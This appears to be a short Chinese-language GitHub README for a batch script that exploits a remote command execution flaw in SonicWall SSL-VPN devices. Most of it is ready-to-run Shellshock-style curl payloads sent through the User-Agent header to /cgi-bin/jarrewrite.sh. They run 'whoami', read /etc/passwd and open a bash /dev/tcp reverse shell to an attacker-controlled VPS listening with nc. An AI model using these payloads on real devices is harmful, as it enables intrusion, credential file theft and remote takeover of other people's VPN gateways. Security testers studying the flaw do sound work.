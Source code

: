 # SonicWallSSL-VPN_RCE

一个简单的SonicWallSSL-VPN远程命令执行批量验证脚本

脚本写得比较简单，主要是对于批量url检测比较实用

用法：将需要检测的url放入同一目录下的url.txt中

执行

python3 SonicWallSSL-VPNrce.py



单个url检测直接在命令行检测即可，

比如：

命令执行：

curl -A "() { :; }; echo ; /bin/bash -c 'whoami'" https://x.x.x.x/cgi-bin/jarrewrite.sh -k

curl -A "() { :; }; echo ; /bin/bash -c 'cat /etc/passwd'" https://x.x.x.x/cgi-bin/jarrewrite.sh -k

反弹shell：

VPS nc监听1234端口，

然后

curl -A "() { :; }; echo ; /bin/bash -c ' bash -i >& /dev/tcp/VPS的IP/1234  0>&1 '" https://x.x.x.x/cgi-bin/jarrewrite.sh -k
